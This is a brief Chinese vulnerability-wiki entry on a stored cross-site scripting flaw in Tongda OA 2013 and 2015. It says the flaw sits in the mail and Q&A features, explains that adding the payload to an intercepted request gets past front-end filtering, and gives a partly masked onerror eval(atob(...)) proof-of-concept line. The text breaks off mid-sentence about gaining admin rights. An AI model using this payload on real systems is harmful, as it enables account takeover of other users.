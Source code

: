 通达oa xss
==========

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤，
所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

    <img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))>

![](/Users/aresx/Documents/VulWiki/.resource/通达oaxss/media/rId24.png)

![](/Users/aresx/Documents/VulWiki/.resource/通达oaxss/media/rId25.png)

这个漏洞获取admin权限⾮
